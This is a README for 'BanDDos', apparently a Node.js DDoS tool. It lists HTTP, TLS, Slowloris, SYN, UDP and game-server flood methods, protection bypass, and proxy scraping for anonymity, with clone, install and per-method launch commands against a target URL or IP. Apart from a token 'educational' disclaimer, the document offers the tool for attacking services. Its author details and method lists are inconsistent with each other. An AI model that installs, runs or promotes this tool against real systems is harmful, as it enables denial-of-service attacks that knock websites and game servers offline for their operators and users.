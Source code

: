 # BanDDos - Advanced DDoS Attack Tool

A powerful and sophisticated Distributed Denial of Service (DDoS) attack tool built with Node.js, featuring multiple attack methods and proxy support.

# Features

1. Layer 7 Attack Methods :
   - HTTP-FLOOD: Floods target with HTTP requests
   - BYPASS: Advanced bypass for common protections
   - GET/POST: Standard GET/POST request floods
   - STRESS: Heavy payload requests
   - SOCKET: WebSocket connection floods
   - TLS: TLS/SSL connection floods
   - SLOW: Slowloris attack implementation
   - NULL: Null User-Agent attacks
   - COOKIE: Cookie-based attacks
   - BOT: Simulates bot traffic
   - XMLRPC: XML-RPC pingback floods

2. Layer 4 Attack Methods
   - TCP: TCP SYN flood attacks
   - UDP: UDP packet floods
   - SYN: SYN packet floods
   - VSE: Valve Source Engine query floods
   - MINECRAFT: Minecraft server attacks
   - MCBOT: Minecraft bot attacks
   - CONNECTION: Connection floods

# Key Features

- Multi-threaded attack engine
- Proxy support (HTTP, SOCKS4, SOCKS5)
- Auto proxy scraping and checking
- Customizable request parameters
- Built-in user agent rotation
- Cookie management
- Advanced header spoofing
- Rate limiting and timeout controls
- Real-time attack statistics

# Technical Details

- Built on Node.js for high performance
- Uses native TCP/UDP sockets
- Implements HTTP/1.1 and HTTP/2
- Supports SSL/TLS connections
- Proxy chain implementation
- Custom protocol implementations
- Efficient memory management
- Asynchronous I/O operations

# Installation

```
# Clone repository
git clone https://github.com/REXREUS/BanDDoS.git

# Install dependencies
npm install

# Configure settings
cp config.example.json config.json
```

# Usage

```
# Layer 7 Attack
npm start <url> <method> <threads> <duration>

# Layer 4 Attack  
npm start <ip:port> <method> <threads> <duration>

# With Proxy
npm start <target> <method> <threads> <duration> <proxy-file>
```

# Command

### Layer 7 Methods

- HTTP_FLOOD: `npm start <url> HTTP_FLOOD <threads> <duration>`
- CFB: `npm start <url> CFB <threads> <duration>`
- BYPASS: `npm start <url> BYPASS <threads> <duration>`
- GET: `npm start <url> GET <threads> <duration>`
- POST: `npm start <url> POST <threads> <duration>`
- OVH: `npm start <url> OVH <threads> <duration>`
- STRESS: `npm start <url> STRESS <threads> <duration>`
- DYN: `npm start <url> DYN <threads> <duration>`
- SLOW: `npm start <url> SLOW <threads> <duration>`
- HEAD: `npm start <url> HEAD <threads> <duration>`
- NULL: `npm start <url> NULL <threads> <duration>`
- COOKIE: `npm start <url> COOKIE <threads> <duration>`
- PPS: `npm start <url> PPS <threads> <duration>`
- EVEN: `npm start <url> EVEN <threads> <duration>`
- SOCKET_FLOOD: `npm start <url> SOCKET_FLOOD <threads> <duration>`
- TLS_FLOOD: `npm start <url> TLS_FLOOD <threads> <duration>`
- XMLRPC: `npm start <url> XMLRPC <threads> <duration>`

### Layer 4 Methods

- TCP_FLOOD: `npm start <ip:port> TCP_FLOOD <threads> <duration>`
- UDP_FLOOD: `npm start <ip:port> UDP_FLOOD <threads> <duration>`
- SYN_FLOOD: `npm start <ip:port> SYN_FLOOD <threads> <duration>`
- VSE: `npm start <ip:port> VSE <threads> <duration>`
- MINECRAFT: `npm start <ip:port> MINECRAFT <threads> <duration>`
- MCBOT: `npm start <ip:port> MCBOT <threads> <duration>`

### With Proxy

Add file proxy in end command:

```
npm start <target> <method> <threads> <duration> <proxy-file>
```

# Configuration

Edit config.json to configure:

- Default attack parameters
- Proxy sources and types
- User agent lists
- Request headers
- Connection timeouts
- Debug options

# Disclaimer

This tool is for educational and testing purposes only. Users take full responsibility for any misuse or damage caused. The developers assume no liability.

# Contributing

- Fork repository
- Create feature branch
- Commit changes
- Push to branch
- Create Pull Request

# Author

- Name: AdrianOficial
- Github: [[github.com/The-DiosBot-MD]](https://github.com/The-DiosBot-MD)

# Acknowledgments

- Original MHDDoS Project
- Node.js Community
- All Contributors
This tool demonstrates advanced networking concepts and should be used responsibly for authorized testing only.
